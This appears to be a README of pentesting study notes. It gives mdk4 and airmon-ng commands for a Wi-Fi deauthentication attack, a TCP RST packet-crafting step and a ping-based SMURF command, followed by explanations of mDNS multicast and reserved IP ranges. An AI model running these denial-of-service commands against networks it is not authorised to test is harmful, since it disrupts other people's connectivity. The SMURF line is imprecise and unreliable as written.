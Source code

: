#Pentesting Network

## Dauth Frames
### Install mdk4
- `sudo apt-get install mdk4`

### Setup an interface in monitor mode
- `sudo airmon-ng start <interface>`
- If an error occurs, kill the process: `sudo airmon-ng check kill`
- `iwconfig` should show a new interface: `<interface>mon`
- The attack will be done on this interface

### Execute Dauth Attack
- `sudo mdk4 <interface> d -w <file> -c <channel>`
  - `file`: WhiteList MAC address
  - `channel`: Channel of the AP (remove `-c <channel>` for an attack on all channels)

## Crafting Packet
- Use `g++ -o rst_packet rst_packet.cpp <ipSrc> <ipDst>` (use valid IP addresses for `ipSrc` and `ipDst`)
- Check if reset packets are detected by the sniffer (RST Flag: ...)

## SMURF Attack
- `ping -b <broadcast ip> -c <number of packets> <ip to ping>`
- Or just `ping <ip>`

# IP Address
## 224.0.0.251

The IP address 224.0.0.251 is a multicast IP address reserved for the use of the Zeroconf (Zero Configuration Networking) service discovery protocol, also known as mDNS (multicast DNS). mDNS allows devices on a local network to discover and connect to each other without prior configuration. This IP address is used for the resolution of local domain names without the need for a central DNS server.

In other words, when a device on the local network is searching for other devices or services, it can broadcast multicast queries to the IP address 224.0.0.251 to discover the services available on the network without requiring a traditional DNS infrastructure. This is commonly used in home and local networks to facilitate the automatic discovery of devices and services without manual configuration.

## Reserved IP Addresses
Yes, there are several ranges of IP addresses reserved for specific purposes, such as particular services, specific communication protocols, or reserved uses for specific purposes. Here are some examples:

1. **Loopback IP Address:**
   - `127.0.0.1` is the standard loopback IP address, also known as "localhost." It is used for network testing on the local machine.

2. **Private IP Addresses:**
   - `10.0.0.0` to `10.255.255.255`
   - `172.16.0.0` to `172.31.255.255`
   - `192.168.0.0` to `192.168.255.255`
   These address ranges are reserved for use in private networks and are not routed on the public Internet.

3. **Multicast IP Addresses:**
   - Various IP addresses in the range `224.0.0.0` to `239.255.255.255` are reserved for multicast. For example, `224.0.0.1` is used for all hosts on the local network, `224.0.0.2` is used for all routers on the local network, etc.

4. **Broadcast IP Address:**
   - `255.255.255.255` is used to send data to all devices on the local network.

5. **Special IP Addresses for Reserved Protocols:**
   - `0.0.0.0` is used as an address indicating "all addresses" or "all hosts."
   - `169.254.0.0` to `169.254.255.255` is reserved for the auto-configuration of IP addresses on a local network in the absence of a DHCP server.

These reserved IP addresses contribute to organizing and optimizing the operation of the Internet and local networks by defining specific ranges for specific purposes.

**Disclaimer:** This repository is for educational purposes only. Use this information responsibly and within legal boundaries.
